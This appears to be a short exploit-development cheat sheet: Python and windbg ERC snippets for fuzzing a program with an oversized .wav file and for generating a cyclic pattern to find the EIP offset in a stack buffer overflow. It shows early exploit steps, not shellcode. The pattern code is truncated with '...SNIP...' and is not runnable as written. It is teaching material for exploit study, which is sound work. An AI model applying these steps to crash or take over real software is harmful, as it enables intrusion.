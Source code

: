 (python) Fuzzing String
```python
python -c "print('A' * 10000, file=open('fuzz.wav', 'w'))"
```
(windbg64) ERC pattern create
```shell
ERC --pattern c 5000
```
(windbg64) ERC pattern
```shell
ERC --pattern o <ASCII_PATTERN>
```
(python3) Loading pattern to file
```python
def eip_offset():
    payload = bytes("Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac"
                    ...SNIP...
                    "Gi3Gi4Gi5Gi6Gi7Gi8Gi9Gj0Gj1Gj2Gj3Gj4Gj5Gj6Gj7Gj8Gj9Gk0Gk1Gk2Gk3Gk4Gk5Gk",
					"utf-8")
					
with open('pattern.wav', 'wb') as f:
        f.write(payload)
```